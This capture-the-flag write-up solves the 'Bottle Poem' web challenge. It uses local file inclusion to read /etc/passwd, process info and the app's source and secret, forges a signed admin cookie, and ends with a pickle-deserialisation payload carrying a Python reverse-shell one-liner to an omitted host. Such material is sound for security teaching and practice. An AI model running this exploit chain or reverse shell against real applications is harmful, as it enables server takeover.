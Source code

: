 # Bottle Poem

## Challenge

> Come and read poems in the bottle.<br>
> No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.

---

## Walkthrough

The challenges landing page lead us to an obvious LFI exploit at `/show?id=spring.txt`.

```
/show?id=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

`/etc/shadow` didn't work meaning the application wasn't running with superuser permission. I tried `/flag` but it wasn't going to be that easy.

Next I tried reading from `/proc/<PID>` to find more information about the process running the webserver. I found it running with a pid of 1.

```txt
/show?id=/proc/1/cmdline

python -u /app/app.py
```

Nice. Let's get the source code

```py
# /show?id=/app/app.py

# ...
from config.secret import sekai

@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
# ...
```

You can view the full file [here](./app.py) but the focus was clearly to exploit `/sign` to get admin permission. Fortunately the secret was imported from `config.secret`.

```py
# /show?id=/app/config/secret.py

sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Nice. To generate the right cookie I made my own bottle server.

```py
# ...
@route("/")
def index():
    sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
    value = {"name": "admin"}
    response.set_cookie("name", value, secret=sekai)
```

Copying this cookie to bottle poem's storage got me into admin! But it was useless...

![admin_panel.png](admin_panel.png)

Looking into bottle's source code I noticed that we can execute a `pickle.loads()` if we had the secret. Looks promising!

```py
def get_cookie(self, key, default=None, secret=None):
    value = self.cookies.get(key)
    if secret and value:
        dec = cookie_decode(value, secret)

def cookie_decode(data, key):
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg)) # <- looks like pickle!
```

For those unaware python pickling is vulnerable to RCE on decoding as it's not meant to be used with user controlled input.

I modified my bottle server to generate an RCE exploit cookie that I could pass into bottle poem.

```py
class RCE:
    def __reduce__(self):
        # I used python since we can guarantee it's installed on the system
        cmd = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ommited>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
        return os.system, (cmd,)

@route("/")
def index():
    value = RCE()
    response.set_cookie("name", value, secret=sekai)
```

Sure enough I passed it into bottle poem and gg.

![flag.png](flag.png)

---

## Solve

`SEKAI{W3lcome_To_Our_Bottle}`
